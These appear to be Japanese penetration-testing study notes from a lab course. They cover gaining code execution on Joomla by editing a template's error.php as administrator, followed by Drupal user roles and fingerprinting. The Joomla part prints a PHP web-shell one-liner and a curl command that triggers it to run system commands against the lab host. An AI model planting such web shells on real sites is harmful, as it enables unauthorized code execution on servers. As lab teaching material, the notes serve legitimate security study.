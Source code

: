 ### 組み込み機能の悪用でのRCE

まずAdministratorでログインする
![](https://i.imgur.com/LgWfZto.png)

- ログインした後に以下のようなエラー出る時
	- `http://<ドメイン>/administrator/index.php?option=com_plugins`にアクセスして、 **「Quick Icon - PHP Version Check」** プラグインを無効化する
```sh
"An error has occurred. Call to a member function format() on null"
```

- 次に、テンプレートの一覧から名前をクリックします。ここでは protostar を選択
- これで「Templates: Customise」ページに移動
- 今回は error.php を選択する
	- この中に、以下の **PHP ワンライナー**を挿入して、コード実行を可能にする
```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

```sh
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```

# Drupal
- DrupalはPHP、バックエンドにはMySQLまたはPostgreSQL、SQLiteも使用可能
- インターネット上のWebサイトの約1.5%
- CMS市場全体の約2.4%

Drupalのデフォルトユーザータイプは以下の3種類
- Administrator（管理者）
	- Drupalサイトに対して完全な権限を持つユーザー
- Authenticated User（認証済みユーザー）
	- ログインして、権限に応じて記事の追加や編集などの操作が可能なユーザー
- Anonymous（匿名ユーザー）
	- 全ての訪問者が該当。デフォルトでは投稿を読むことしかできません

Drupalの特徴として「ノード（nodes）」がある
- Drupalはコンテンツをノードという単位で管理している。
- ノードにはブログ投稿、投票、記事など、あらゆるコンテンツを格納できる
- ページのURLは通常 `/node/<nodeid>` の形式になる

##  発見とフットプリンティング
DrupalのWebサイトは、以下のような方法で特定できる
- ヘッダーやフッターに表示される「Powered by Drupal」
- 標準のDrupalロゴ
- CHANGELOG.txtやREADME.txtファイルの存在
- ページソース内の記述
- robots.txtファイルに含まれる/nodeのような記述など
```shell-session
curl -s http://drupal.inlanefreight.local | grep Drupal
```

